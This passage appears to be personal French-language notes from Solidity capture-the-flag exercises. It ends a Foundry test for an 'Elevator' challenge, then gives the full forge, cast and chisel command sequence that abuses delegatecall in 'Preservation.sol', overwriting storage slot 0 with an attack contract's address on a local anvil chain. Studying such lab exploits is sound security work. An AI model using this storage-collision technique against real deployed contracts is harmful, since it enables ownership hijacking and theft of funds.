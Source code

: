 ```javascript
        //J'utilise cette syntaxe par ce que je n'ai pas initialisé elv.top au debut
        // a true ou false
        assert(!elv.top());
        vm.prank(address(atck));
        elv.goTo(2);
        assertEq(elv.floor(), 0);
        assert(!elv.top());
    }
```
Ici on voit dans le vm.prank que c'est l'instance du contract Attack, ici atck qui effectue la 
transaction et qu'il a bien implémenté l'interface Building


# Preservation.sol 
La fonction delegatecall modifie la valeur du slot correpondant dans le contract appelant, pas
dans le contract appelé comme le fait call.

Suite des commandes pour changer l'adresse du owner:
forge create src/Preservation.sol:LibraryContract --rpc-url 127.0.0.1:8545 --account anvil
l1=0x5FbDB2315678afecb367f032d93F642f64180aa3

forge create src/Preservation.sol:LibraryContract --rpc-url 127.0.0.1:8545 --account anvil
l2=0xe7f1725E7734CE288F8367e1Bb143E90bb3F0512

forge create src/Preservation.sol:Preservation --constructor-args $l1 $l2 --rpc-url 127.0.0.1:8545 --account anvil
p=0x9fE46736679d2D9a65F0992F2272dE9f3c7fa6e0

forge create src/Preservation.sol:Attack --constructor-args $l1 $l2 --rpc-url 127.0.0.1:8545 --account anvil
a=0xCf7Ed3AccA5a467e9e704C703E8D87F634fB0Fc9

 cast storage $p 0
0x0000000000000000000000005fbdb2315678afecb367f032d93f642f64180aa3

cast storage $p 2
0x000000000000000000000000f39fd6e51aad88f6f4ce6ab8827279cfffb92266

dakdak@dakdak:~/code/SECURITY/CTF$ chisel
Welcome to Chisel! Type `!help` to show available commands.
➜ address attack = 0xCf7Ed3AccA5a467e9e704C703E8D87F634fB0Fc9
➜ uint256 attackCasted = uint256(uin160(attack))
➜ uint256 attackCasted = uint256(uint160(attack))
➜ attackCasted
Type: uint256
├ Hex: 0xcf7ed3acca5a467e9e704c703e8d87f634fb0fc9
├ Hex (full word): 0xcf7ed3acca5a467e9e704c703e8d87f634fb0fc9
└ Decimal: 1184589422945421143511828701991100965039074119625

cast send $p "setFirstTime(uint256)" 1184589422945421143511828701991100965039074119625 --rpc-url 127.0.0.1:8545 --account anvil

cast storage $p 0
0x000000000000000000000000cf7ed3acca5a467e9e704c703e8d87f634fb0fc9 //correspond à l'adresse
de l'instance du contract Attack
